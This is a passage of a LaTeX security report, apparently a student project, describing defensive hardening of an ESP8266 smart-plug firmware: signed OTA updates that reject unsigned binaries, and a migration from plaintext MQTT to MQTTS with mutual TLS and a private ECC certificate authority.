    
\includegraphics[width=0.90\linewidth]{Images/Fase3/OTAProtettoErrore1.png}
    \caption{Upload of an unsigned binary (\texttt{ShellyPlugS\_3.ino.bin}) — the file lacks the RSA signature trailer}
    \label{fig:ota_error1}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.90\linewidth]{Images/Fase3/OtaProtettoErrore2.png}
    \caption{Rejection: the device responds with ``ERRORE: Aggiornamento Fallito. Firma non valida, file alterato o corrotto.'', confirming the signature verification rejected the unsigned binary}
    \label{fig:ota_error2}
\end{figure}

\noindent The device correctly identifies that the uploaded binary does not carry a valid signature and refuses to apply the update. The existing firmware remains intact, and the device continues to operate normally.


\section{Ensuring Confidentiality and Authenticity}
\label{sec:confidentiality}

The second major vulnerability exploited in Phase~1 was the use of \textbf{unencrypted MQTT} (port 1883), which allowed any network observer to intercept telemetry data (power, energy, temperature) and control commands (relay on/off) in plaintext. This section describes the migration to MQTTS and the implementation of mutual TLS authentication to address both confidentiality and authenticity.


\subsection{Secure MQTT (MQTTS)}

The hardened firmware replaces the standard \texttt{WiFiClient} used in Phase~2 with a \texttt{BearSSL::WiFiClientSecure} instance (Figure~\ref{fig:mqtts0}), which wraps all TCP communication in a TLS 1.2 encrypted tunnel. The MQTT client (\texttt{PubSubClient}) is then instantiated on top of this secure transport, transparently encrypting all MQTT traffic.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.55\linewidth]{Images/Fase3/mqtts0.png}
    \caption{Secure client declaration: \texttt{BearSSL::WiFiClientSecure} replaces the plaintext \texttt{WiFiClient}, and the \texttt{PubSubClient} is wrapped around it}
    \label{fig:mqtts0}
\end{figure}

\noindent The MQTT connection is configured to use \textbf{port 8883} (the standard MQTTS port) instead of the plaintext port 1883:

\begin{verbatim}
char mqtt_port[6] = "8883";
\end{verbatim}

\subsubsection{NTP Synchronization}

TLS certificate validation requires an accurate system clock to verify certificate validity periods (the \texttt{notBefore} and \texttt{notAfter} fields in X.509 certificates). Since the ESP8266 does not have a Real-Time Clock (RTC) and loses its time reference on every power cycle, the firmware implements NTP (Network Time Protocol) synchronization at startup (Figure~\ref{fig:mqtts1}). The \texttt{syncNTP()} function queries \texttt{pool.ntp.org} and \texttt{time.nist.gov} with a 10-second timeout. If synchronization fails, the firmware logs a warning indicating that TLS may not function correctly.

\subsubsection{TLS Configuration}

The \texttt{setupTLS()} function (Figure~\ref{fig:mqtts1}) configures the BearSSL client for mutual TLS authentication by loading three cryptographic objects:

\begin{enumerate}
    \item \textbf{CA Certificate} (\texttt{ca\_cert}): The Certificate Authority certificate used to verify the broker's identity. Set via \texttt{setTrustAnchors()}.
    \item \textbf{Client Certificate} (\texttt{client\_cert}): The device's X.509 certificate, presented to the broker during the TLS handshake. Set via \texttt{setClientECCert()}.
    \item \textbf{Client Private Key} (\texttt{client\_key}): The ECC private key corresponding to the client certificate, used to prove ownership. Set via \texttt{setClientECCert()}.
\end{enumerate}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{Images/Fase3/mqtts1.png}
    \caption{NTP synchronization and TLS configuration: the firmware synchronizes the system clock and loads CA, client certificate, and client private key for mTLS}
    \label{fig:mqtts1}
\end{figure}

\noindent The TLS buffer sizes are explicitly configured to accommodate the ESP8266's limited memory:

\begin{verbatim}
wifiClientSecure.setBufferSizes(4096, 512);
\end{verbatim}

\noindent This sets a 4096-byte receive buffer and a 512-byte send buffer, representing a careful trade-off between TLS functionality and the approximately 50\,KB of heap available on the ESP8266.

\subsubsection{Mitigation Effectiveness}

This countermeasure directly addresses the \textbf{Information Disclosure} threat identified in Phase~1:

\begin{itemize}
    \item \textbf{Before (Phase~1/2)}: All MQTT traffic was transmitted in plaintext on port 1883. Any attacker on the local network could use Wireshark to intercept power, energy, temperature, and relay state data.
    
    \item \textbf{After (Phase~3)}: All MQTT traffic is encrypted using TLS 1.2 on port 8883. Even if an attacker captures the packets, the payload is encrypted and appears as opaque ``Application Data'' in Wireshark.
\end{itemize}


\subsection{Mutual Authentication (mTLS)}

While standard TLS ensures confidentiality by encrypting the communication channel, it only authenticates the \emph{server} (broker) to the \emph{client} (device). Mutual TLS (mTLS) extends this by also requiring the client to present a valid certificate to the server, ensuring \textbf{bidirectional authentication}. This prevents unauthorized devices from connecting to the MQTT broker and unauthorized brokers from impersonating the legitimate server.

\subsubsection{Certificate Hierarchy and Generation}

The mTLS infrastructure is built on a \textbf{private Certificate Authority (CA)} using Elliptic Curve Cryptography (ECC) with the \texttt{prime256v1} (P-256) curve. ECC was chosen over RSA for the TLS certificates because it provides equivalent security with significantly smaller key sizes (256-bit ECC $\approx$ 3072-bit RSA), which is critical for the memory-constrained ESP8266.

\medskip
\noindent The PKI hierarchy consists of four entities, each with its own certificate directory on the server (Figure~\ref{fig:certificati}):

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{Images/Fase3/Certificati.png}
